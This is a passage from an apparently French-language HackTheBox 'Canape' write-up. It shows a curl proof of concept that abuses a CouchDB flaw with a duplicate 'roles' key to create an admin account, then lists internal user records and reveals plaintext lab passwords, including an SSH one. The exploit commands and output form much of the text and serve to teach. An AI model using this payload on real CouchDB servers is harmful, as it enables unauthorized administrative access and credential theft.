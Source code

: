 On reprend le PoC curl pour créer notre compte privilégié :  

```plain
curl -X PUT 'http://localhost:5984/_users/org.couchdb.user:devloop' --data-binary '{"type": "user", "name": "devloop", "roles": ["_admin"], "roles": [], "password": "devloop31337"}'
```

On peut dès lors accéder aux bases dont l’accès nous été auparavant refusé :  

```plain
$ curl http://127.0.0.1:5984/_users/_all_docs --basic -u devloop:devloop31337
{"total_rows":7,"offset":0,"rows":[
{"id":"_design/_auth","key":"_design/_auth","value":{"rev":"1-75efcce1f083316d622d389f3f9813f7"}},
{"id":"org.couchdb.user:admin","key":"org.couchdb.user:admin","value":{"rev":"1-85c75449e4a18a89022cd324134fc943"}},
{"id":"org.couchdb.user:cmon","key":"org.couchdb.user:cmon","value":{"rev":"1-93fd3e66474bd9dc366f9992987084b3"}},
{"id":"org.couchdb.user:devloop","key":"org.couchdb.user:devloop","value":{"rev":"1-e2d60a59ff3e436ae8eb38d196f33618"}},
{"id":"org.couchdb.user:eheheh","key":"org.couchdb.user:eheheh","value":{"rev":"1-e529ced09093ca45635c9d99ac9a3e91"}},
{"id":"org.couchdb.user:oops","key":"org.couchdb.user:oops","value":{"rev":"1-db9d6cc939e7e3d1a2f41cf91ab32828"}},
{"id":"org.couchdb.user:wooyun","key":"org.couchdb.user:wooyun","value":{"rev":"1-0993e3551c110ed487f341883eb28732"}}
]}
```

La base *\_users* est une base interne mais pas la base *passwords* qui devrait contenir du contenu intéressant... Sauf qu'on ne voit que des métadonnées.  

J'ai passé 3 jours à essayer de comprendre ce que je faisais mal et à tenter d'exploiter en vain [une autre faille d'exécution de commande](https://www.exploit-db.com/exploits/44913/) qui aurait aussi pu toucher cette version sans résultats.  

Finalement j'ai vu dans les options de l'interface web cette option :  

![HTB Canape CouchDB data option](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/canape_couchdb_option.png)

Et j'ai maudit sur 7 générations les développeurs qui ont pensé cette interface (comme d'habitude ce sera la faute du frontend).  

Casse-toi Flanders !
--------------------

Une fois activée, c'est mieux :')  

![HTB Canape Couchdb ssh password](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/canape_passwords.png)

```plain
  "item": "ssh",
  "password": "0B4jyA0xtytZi7esBNGp",
  "user": ""

  "item": "couchdb",
  "password": "r3lax0Nth3C0UCH",
  "user": "couchy"

  "item": "simpsonsfanclub.com",
  "password": "h02ddjdj2k2k2",
  "user": "homer"

  "user": "homerj0121",
  "item": "github",
  "password": "STOP STORING YOUR PASSWORDS HERE -Admin"
```
